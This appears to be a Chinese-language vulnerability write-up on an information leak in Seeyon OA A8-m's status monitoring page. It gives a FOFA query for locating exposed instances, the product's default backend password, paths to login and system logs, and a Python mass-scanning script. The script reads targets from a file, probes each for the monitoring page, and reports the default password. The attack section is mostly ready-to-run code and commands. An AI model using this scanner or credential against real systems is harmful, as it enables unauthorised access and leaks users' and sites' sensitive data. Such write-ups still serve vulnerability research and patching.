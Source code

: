 # 致远OA-A8-状态监控页面信息泄露

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

> [!NOTE]
>
> 致远OA A8-m

## FOFA

> [!NOTE]
>
> title="A8-m"

## 漏洞复现

访问监控页面

```
http://xxx.xxx.xxx.xx/seeyon/management/status.jsp
```

![](致远OA-A8-状态监控页面信息泄露.assets/1627363494953467.jpg)

后台密码为 **WLCCYBD@SEEYON**

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![](致远OA-A8-状态监控页面信息泄露.assets/1627363495317444.jpg)

![](致远OA-A8-状态监控页面信息泄露.assets/16273634955637388.jpg)

![](致远OA-A8-状态监控页面信息泄露.assets/1627363495895373.jpg)

## 漏洞利用POC

> [!NOTE]
>
> 多个目标

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/management/index.jsp"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "Password" in response.text:
            print("\033[32m[o] 目标 {} 存在后台监控地址{}，默认密码为: WLCCYBD@SEEYON\033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```



![](致远OA-A8-状态监控页面信息泄露.assets/1627363496289786.jpg)

## Goby & POC

> [!NOTE]
>
> Seeyon OA A8-m Information leakage

![](致远OA-A8-状态监控页面信息泄露.assets/16273634966543748.jpg)